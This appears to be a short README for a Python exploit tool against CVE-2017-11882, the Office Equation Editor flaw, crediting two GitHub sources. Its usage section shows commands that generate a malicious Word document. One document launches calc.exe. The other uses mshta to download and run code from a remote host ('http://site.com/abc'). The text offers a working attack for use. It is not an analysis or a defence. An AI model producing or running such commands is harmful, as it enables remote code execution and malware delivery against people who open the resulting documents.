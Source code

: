 #CVE-2017-11882
###脚本来自于 
* [https://github.com/embedi/CVE-2017-11882](https://github.com/embedi/CVE-2017-11882)
* Ridter[https://github.com/Ridter/CVE-2017-11882/](https://github.com/Ridter/CVE-2017-11882/)
##Usage
```txt
    python Command_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
```
use mshta
```txt
    python Command_CVE-2017-11882.py -c "mshta http://site.com/abc" -o test.doc
```